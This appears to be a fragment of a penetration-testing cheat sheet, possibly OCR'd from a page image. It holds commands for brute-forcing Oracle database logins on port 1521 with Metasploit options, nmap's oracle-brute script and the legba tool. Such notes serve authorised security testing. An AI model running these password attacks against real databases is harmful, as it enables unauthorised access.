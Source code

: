 ```bash
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#for some reason nmap fails sometimes when executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>

legba oracle --target localhost:1521 --oracle-database SYSTEM --username admin --password data/passwords.txt
```